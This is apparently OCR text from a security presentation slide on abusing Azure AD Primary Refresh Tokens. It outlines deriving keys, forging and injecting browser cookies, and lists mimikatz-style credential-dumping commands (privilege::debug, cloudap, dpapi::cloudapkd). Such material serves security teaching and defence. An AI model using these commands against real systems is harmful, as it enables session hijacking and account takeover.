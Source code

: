 
Abusing Azure AD PRT 
▪ Primary Refresh Token is the SSO artifact of Azure AD 
▪ The machine needs a corresponding device object in AAD 
▪ Protected by the TPM ▪ PRT can be used to request tokens (Refresh Token & Access Token) 
▪ Browser access is using cookies to handle sessions
1️⃣ Use the PRT to derive keys 
2️⃣ Generate your own cookies 
3️⃣ Inject your cookies in your browser 
4️⃣ Access the application

PRT and cookie manipulation

 privilege::debug 
 sukurlsa::cloudap 
 token::elevate 
 dpapi::cloudapkd /keyvalue: /unprotect 
 dpapi::cloudapkd /prt: /derivedkey: